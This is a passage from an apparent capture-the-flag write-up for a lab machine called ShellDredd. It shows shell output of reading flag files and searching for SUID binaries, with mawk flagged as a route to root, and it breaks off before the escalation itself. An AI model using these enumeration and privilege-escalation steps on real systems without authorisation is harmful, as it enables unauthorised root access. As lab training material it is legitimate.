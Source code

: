 ```bash
hannah@ShellDredd:~$ id
uid=1000(hannah) gid=1000(hannah) groups=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
hannah@ShellDredd:~$
```
{: .nolineno}
<br>
<br>

---

<br>

## SHELL ➡️

Now when I got the shell so easily so lets find some flags first →

```bash
hannah@ShellDredd:~$ cat user.txt 
Your flag is in another file...
hannah@ShellDredd:~$ cat local.txt 
25be130d1a9ddcb79ff365b266f21a20
hannah@ShellDredd:~$
```
{: .nolineno}

Now lets check the SUIDs files for some permissions that leads me to root →

```bash
hannah@ShellDredd:/$ find / -perm -u=s -type f 2>/dev/null 
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk             <---- This will work <----
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
hannah@ShellDredd:/$
```
{: .nolineno}

Now I have used the [GTFOBin](https://gtfobins.github.io/) site for searching the exploit →

